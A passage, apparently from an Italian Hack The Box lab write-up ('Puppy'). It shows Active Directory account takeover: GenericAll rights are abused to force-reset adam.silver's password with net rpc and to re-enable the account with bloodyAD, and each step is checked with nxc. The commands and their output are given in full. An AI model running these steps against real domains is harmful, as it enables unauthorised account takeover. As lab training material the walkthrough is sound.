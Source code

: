 Si visualizzano permessi e possibili *path* di attacco con **BloodHound**.

![BHCE-2](./img/bhce-2.png)

## Force Change Password

Si sfruttando i permessi di **GenericAll** per il **Force Change Password Attack** contro **adam.silver**.

```bash

# Force Change Password
$ net rpc password 'adam.silver' 'Password123!' -U 'PUPPY.HTB'/'ant.edwards'%'Antman2025!' -S 'DC.PUPPY.HTB'

# Check the credential
$ nxc smb PUPPY.HTB -u 'adam.silver' -p 'Password123!'                                                             
SMB         10.x.x.x  445    DC               [*] Windows Server 2022 Build 20348 x64 (name:DC) (domain:PUPPY.HTB) (signing:True) (SMBv1:False) 
SMB         10.x.x.x  445    DC               [-] PUPPY.HTB\adam.silver:Password123! STATUS_ACCOUNT_DISABLED

```

## Update the User Account Control

> **UserAccountControl flags**: [https://learn.microsoft.com/en-us/troubleshoot/windows-server/active-directory/useraccountcontrol-manipulate-account-properties](https://learn.microsoft.com/en-us/troubleshoot/windows-server/active-directory/useraccountcontrol-manipulate-account-properties)

Per **abilitare** l'utente **adam.silver** si sfrutta la **GenericAll** per rimuovere la flag **ACCOUNTDISABLE**.

```bash

# Remove the ACCOUNTDISABLE
$ bloodyAD --host 'DC' -d 'PUPPY.HTB' -u 'ant.edwards' -p 'Antman2025!' remove uac 'adam.silver' -f ACCOUNTDISABLE
[-] ['ACCOUNTDISABLE'] property flags removed from adam.silver s userAccountControl

# Check the account status
$ nxc smb PUPPY.HTB -u 'adam.silver' -p 'Password123!'                                                             
SMB         10.x.x.x  445    DC               [*] Windows Server 2022 Build 20348 x64 (name:DC) (domain:PUPPY.HTB) (signing:True) (SMBv1:False) 
SMB         10.x.x.x  445    DC               [+] PUPPY.HTB\adam.silver:Password123!

```